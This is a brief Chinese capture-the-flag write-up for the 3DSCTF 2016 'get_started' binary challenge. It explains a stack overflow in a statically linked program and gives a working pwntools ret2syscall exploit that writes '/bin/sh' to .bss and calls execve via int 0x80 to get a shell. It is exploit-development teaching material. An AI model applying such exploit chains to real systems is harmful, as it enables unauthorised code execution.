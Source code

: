 ```yaml
---
title: "get_started_3dsctf_2016"
description: ""
date: 2023-04-07T00:15:13+08:00
lastmod: 2023-04-07T00:15:13+08:00
draft: false
images: []
type: docs
weight: 992
toc: true
---
```


## 0x01 分析

![15690f8041744dcc4dc1626db67656d9](images/15690f8041744dcc4dc1626db67656d9.png)  

简单的溢出，但是这是一个静态链接，程序里没有system函数和 `/bin/sh` 字符串，但是存在内陷指令，也存在mprotect函数。所以这里可以用ret2syscall来做，或者用mprotect修改bss段权限注入shellcode，或者rop-chain来做

## 0x02 Exploit

```python
from pwn import*
o = process("./pwn")
elf = ELF("./pwn")
gets_addr = elf.sym['gets']
main = elf.sym['main']
bss_addr = 0x80EBF80
int_80 = 0x0806d7e5
pop_eax = 0x080b91e6
pop3 = 0x0806fc30
payload = b'a'*(4*14) + p32(gets_addr) + p32(main) + p32(bss_addr)
o.sendline(payload)
o.sendline("/bin/sh")
payload = b'a'*(4*14) + p32(pop3) + p32(0) + p32(0) + p32(bss_addr) + p32(pop_eax) + p32(11) + p32(int_80)
o.sendline(payload)
o.interactive()
```

![6155ac6a7eac7f47876559779f4317eb](images/6155ac6a7eac7f47876559779f4317eb.png)  

自行尝试其他方法
